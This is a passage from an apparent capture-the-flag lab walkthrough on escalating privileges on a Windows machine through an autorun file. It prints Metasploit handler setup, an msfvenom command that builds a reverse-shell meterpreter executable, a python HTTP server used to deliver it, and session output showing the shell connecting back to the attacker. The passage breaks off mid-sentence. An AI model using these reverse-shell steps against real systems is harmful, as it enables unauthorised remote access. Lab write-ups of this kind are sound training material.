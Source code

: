 Find that out and start up `msfconsole` and use the following.

```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost tun0
lhost => 10.6.x.x
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.6.x.x:4444 
```

This will get our handler going.  Then we need to open msfvenom and create a program to start that connection in a new tab.

```
(kali㉿kali)-$ msfvenom -p windows/meterpreter/reverse_tcp lhost=tun0 -f exe -o program.exe                           
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: program.exe
```

I changed out the text to say tun0 instead of my IP.  Keep using your IP when you can.

Now we need to move the program.exe to the target machine.  We can do this with a simple http server with python

`python -m http.server 80`

Then use the browser on the target to connect to our http server and download the file into the correct folder and run it.  And when we check the listener that we set in Metasploit, we get the following.

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.6.x.x:4444 
[*] Sending stage (176198 bytes) to 10.10.85.199
[*] Meterpreter session 1 opened (10.6.x.x:4444 -> 10.10.85.199:49302) at 2024-10-22 00:26:28 -0400

meterpreter > pwd
C:\Users\user\Desktop
```

We're still just the user though.  Exit out of that meterpreter, re-ran the handler.  Went to the device, selected the disconnect option and then reconnected via the rdesktop and this time logged in with the admin account.

Once logged in, I was prompted to run the auto run file that we had put in the file.  Once we ran that, we got a new session but this time, we get the following
